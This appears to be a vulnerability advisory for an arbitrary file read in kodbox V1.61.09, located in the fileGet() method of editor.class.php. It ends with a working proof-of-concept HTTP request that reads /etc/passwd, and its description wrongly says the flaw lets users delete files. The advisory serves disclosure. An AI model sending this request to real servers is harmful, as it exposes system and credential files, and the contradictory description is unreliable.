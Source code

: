# Vendor

kalcaddle

# Product

kodbox

# version

V1.61.09

# Download 

https://github.com/kalcaddle/kodbox

# Vulnerability

Arbitrary File Read

# Description

The root of the vulnerability lies within the `fileGet()` method in the `app/controller/explorer/editor.class.php` file,users can delete any file on the server.

# Analysis

The root of the vulnerability lies within the `fileGet()` method in the `app/controller/explorer/editor.class.php` file.

No restrictions are imposed on read files

<img width="676" height="214" alt="image" src="https://github.com/user-attachments/assets/fc3f01d5-01b5-4b0a-9e7a-1fcb7d163ba7" />

Recurrence of vulnerabilities：

<img width="1024" height="814" alt="image" src="https://github.com/user-attachments/assets/84bde8fc-cd02-4a0f-bcb2-6ad3ddd3faa0" />


# POC
```
POST /?explorer/editor/fileGet HTTP/1.1
Host: 192.168.1.88:8088
Content-Type: application/x-www-form-urlencoded
Cookie: CSRF_TOKEN=1; KOD_SESSION_ID=1314466bdb917162b6e85d75d7912cdd;
Connection: keep-alive
Content-Length: 83

path=/etc/passwd&base64=0&page=1&CSRF_TOKEN=1&API_ROUTE=explorer%2Feditor%2FfileGet

```
